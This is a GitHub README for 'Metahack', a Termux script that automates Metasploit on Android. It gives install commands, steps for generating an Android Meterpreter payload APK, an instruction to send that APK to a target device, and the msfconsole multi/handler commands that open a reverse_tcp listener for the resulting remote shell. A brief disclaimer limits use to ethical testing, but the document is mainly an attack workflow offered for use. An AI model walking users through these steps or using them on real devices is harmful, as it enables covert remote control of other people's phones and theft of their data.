


#  Metahack - Advanced Metasploit Automation Tool  
<p align="center">
  
  
  
  
</p>

🚀 **Metahack** is a **powerful penetration testing tool** that automates Metasploit in Termux. It helps ethical hackers and cybersecurity professionals **generate payloads, automate exploits, and manage sessions easily**. Whether you’re a beginner or an expert, Metahack simplifies Metasploit usage and boosts efficiency.  

---

## 🚀 Features  

✅ **Automated Metasploit Setup** – No manual installation needed!  
✅ **One-Click Payload Generator** – Easily create payloads for Android, Windows, and Linux.  
✅ **Pre-Configured Exploits** – Execute common Metasploit exploits effortlessly.  
✅ **Session Management** – Monitor and control active Meterpreter sessions.   
✅ **User-Friendly Interface** – Simple CLI with guided steps.  

---

## 📌 Requirements  

Before using Metahack, ensure you have:  
- ✅ **Android device** with **Termux** installed.  
- ✅ At least **1GB of free storage**.  
- ✅ **Stable internet connection** for downloading dependencies.  
- ✅ Basic understanding of Metasploit Framework (MSF).  

---

## 🛠 Installation  

To install Metahack on Termux, run the following commands:  

```bash
pkg update && pkg upgrade -y  
pkg install git python curl -y  
git clone https://github.com/HYDRA-TERMUX/Metahack  
cd Metahack  
chmod +x install.sh  
bash install.sh 
```

After installation, launch the tool with:  

```bash
bash metarun.sh
```

🔹 **Metahack will handle Metasploit installation and setup automatically!**  

---

## 🎯 Usage Guide  

### 🔹 Generate an Android Payload  

1. Select **Payload Generator** from the main menu.  
2. Enter the target **LHOST (your IP address)**.  
3. Enter the **LPORT (listening port)**.  
4. The payload APK will be generated and saved in the `output` folder.  
5. Send the APK to the target device and start the listener in Metasploit:  

```bash
msfconsole -q  
use exploit/multi/handler  
set payload android/meterpreter/reverse_tcp  
set LHOST <Your-IP>  
set LPORT <Port>  
exploit  
```

### 🔹 Start Metasploit Console  

Metahack allows you to launch Metasploit directly:  

```bash
bash metarun.sh --msf
```

### 🔹 Automate Exploits  

Run pre-configured Metasploit scripts for automated attacks:  

```bash
bash metarun.sh --exploit android
```
## 📥One-Click Payload Generator



---

## 📸 Screenshots  




---

## ⚠️ Legal Disclaimer  

🚨 **Warning!** Metahack is a tool for **ethical hacking, penetration testing, and educational purposes only**.  
🚫 Unauthorized access to devices, networks, or systems **without permission is illegal**.  
📜 The developer is **not responsible for any misuse or illegal activities** performed using this tool.  

---

## 💡 Contributing  

Want to improve Metahack? We welcome contributions!  

1. **Fork the repository** on GitHub.  
2. **Create a new branch** for your changes.  
3. **Make improvements** (bug fixes, features, etc.).  
4. **Submit a pull request** with a detailed explanation.  

---

## 📬 Contact & Support  

📩 **Developer:** HYDRA TERMUX  
🐞 **Report Bugs:** Open an [issue](https://github.com/HYDRA-TERMUX/Metahack/issues).  
⭐ **Like this project?** Give it a **star** on GitHub!  

---

### 🚀 **Turn your Android into a powerful hacking machine with Metahack!**  
[](https://github.com/HYDRA-TERMUX/Metahack/archive/refs/heads/main.zip)


